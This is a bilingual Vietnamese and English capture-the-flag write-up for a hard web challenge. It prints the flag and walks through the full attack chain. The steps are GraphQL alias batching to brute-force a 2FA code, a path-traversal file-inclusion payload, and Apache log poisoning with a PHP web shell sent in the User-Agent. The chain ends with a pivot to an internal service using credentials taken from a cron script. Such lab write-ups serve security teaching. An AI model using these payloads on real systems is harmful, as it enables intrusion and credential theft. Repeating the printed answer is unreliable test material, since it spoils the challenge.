


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `WEBVERSE{6add1fa0046769ecfe34b673b76cd2a3}`


Bài này thuộc category **Web / Hard** trên nền tảng WebVerse. Ứng dụng là một web app PHP có xác thực hai lớp (2FA) và một endpoint **GraphQL**. Cờ không nằm trực tiếp trong web app mà nằm ở một internal microservice, đòi hỏi người chơi phải đạt được thực thi mã từ xa (RCE).

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Bypass 2FA bằng GraphQL Alias Batching

Endpoint `/graphql` cung cấp mutation `verifyOtp(code: String)`. Hệ thống đặt giới hạn:
```text
BB_OTP_REQ_LIMIT = 150 (HTTP requests per session)
```

Tuy nhiên, GraphQL cho phép gộp hàng ngàn operation vào một request duy nhất bằng cú pháp Alias:

```graphql
{
  a0: verifyOtp(code: "00000")
  a1: verifyOtp(code: "00001")
  ...
  a9999: verifyOtp(code: "09999")
}
```

Bằng cách gửi 10,000 alias mỗi lần, toàn bộ không gian $10^5$ mã OTP 5 chữ số được quét sạch chỉ trong 10 HTTP requests, vượt qua cơ chế giới hạn và đăng nhập thành công vào trang quản trị `dashboard.php`.

---

## Bước 2: Local File Inclusion (LFI) trên `directive`

Tại `dashboard.php`:

```php
if (strpos($directive, 'dashboard-pages/') !== 0) {
    die("Invalid directive");
}
include("views/" . $directive . ".php");
```

Hàm chỉ kiểm tra chuỗi bắt đầu bằng `dashboard-pages/`, hoàn toàn không chuẩn hóa đường dẫn bằng `realpath()` hay `basename()`.
Do đó, payload sau thoát hoàn toàn khỏi thư mục `views/`:

```text
?directive=dashboard-pages/../../../../../var/log/apache2/access
```

---

## Bước 3: Apache Log Poisoning $\to$ RCE

Tệp `/var/log/apache2/access.log` có quyền đọc và nằm trong phạm vi cấu hình `open_basedir`.

Gửi request đầu tiên với mã PHP độc hại trong User-Agent:
*(Lưu ý: Apache tự động escape dấu `"` thành `\"`, vì vậy payload bắt buộc chỉ dùng dấu nháy đơn `'` để tránh gây lỗi cú pháp PHP)*:

```bash
curl -A "<?php system(\$_GET['c']); ?>" https://<instance_id>.webverselabs-pro.com/
```

Kích hoạt thực thi lệnh hệ thống qua LFI:

```bash
curl "https://<instance_id>.webverselabs-pro.com/dashboard.php?directive=dashboard-pages/../../../../../var/log/apache2/access&c=id"
```

---

## Bước 4: Pivot sang Dịch vụ Nội bộ thu Flag

Khảo sát mạng nội bộ từ shell:
Phát hiện tiến trình đang lắng nghe tại `127.0.0.1:9200` (*Settlement Service*). Dịch vụ yêu cầu HTTP Basic Authentication của người dùng `jax`.

Đọc file cron nội bộ `/opt/recon/nightly.sh`:
Tìm thấy mật khẩu đăng nhập của `jax`. Thực hiện gọi API đối soát sổ cái:

```bash
curl -u jax:<password> http://127.0.0.1:9200/ledger/reconcile
```

JSON phản hồi trả về trường `release_code` chứa flag:

⇒ **Flag:** `WEBVERSE{6add1fa0046769ecfe34b673b76cd2a3}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `WEBVERSE{6add1fa0046769ecfe34b673b76cd2a3}`


This article belongs to the category **Web / Hard** on the WebVerse platform. The application is a PHP web app with two-factor authentication (2FA) and a **GraphQL** endpoint. The flag is not located directly in the web app but in an internal microservice, requiring the player to achieve remote code execution (RCE).

---

## Solve Flow Diagram



---

## Step 1: Bypass 2FA using GraphQL Alias ​​Batching

Endpoint `/graphql` provides mutation `verifyOtp(code: String)`. Limit setting system:
```text
BB_OTP_REQ_LIMIT = 150 (HTTP requests per session)
```

However, GraphQL allows thousands of operations to be combined into a single request using Alias ​​syntax:

```graphql
{
  a0: verifyOtp(code: "00000")
  a1: verifyOtp(code: "00001")
  ...
  a9999: verifyOtp(code: "09999")
}
```

By sending 10,000 aliases at a time, the entire $10^5$ 5-digit OTP code space was cleared in just 10 HTTP requests, bypassing the limit mechanism and successfully logging in to the `dashboard.php` admin page.

---

## Step 2: Local File Inclusion (LFI) on `directive`

At `dashboard.php`:

```php
if (strpos($directive, 'dashboard-pages/') !== 0) {
    die("Invalid directive");
}
include("views/" . $directive . ".php");
```

The function only checks for strings starting with `dashboard-pages/`, and does not normalize paths with `realpath()` or `basename()`. Therefore, the following payload completely escapes the `views/` directory:

```text
?directive=dashboard-pages/../../../../../var/log/apache2/access
```

---

## Step 3: Apache Log Poisoning $\to$ RCE

The file `/var/log/apache2/access.log` has read permissions and is within the scope of the `open_basedir` configuration.

Send the first request with malicious PHP code in User-Agent: *(Note: Apache automatically escapes the `"` to `\"`, so the payload is required to only use single quotes `'` to avoid causing PHP syntax errors)*:

```bash
curl -A "<?php system(\$_GET['c']); ?>" https://<instance_id>.webverselabs-pro.com/
```

Enable system command execution via LFI:

```bash
curl "https://<instance_id>.webverselabs-pro.com/dashboard.php?directive=dashboard-pages/../../../../../var/log/apache2/access&c=id"
```

---

## Step 4: Pivot to Internal Service to collect Flag

Survey internal network from shell: Detect process listening at `127.0.0.1:9200` (*Settlement Service*). The service requests HTTP Basic Authentication of user `jax`.

Reading internal cron file `/opt/recon/nightly.sh`: Found login password of `jax`. Make a call to the ledger reconciliation API:

```bash
curl -u jax:<password> http://127.0.0.1:9200/ledger/reconcile
```

The response JSON returns a `release_code` field containing the flag:

⇒ **Flag:** `WEBVERSE{6add1fa0046769ecfe34b673b76cd2a3}`
</div>
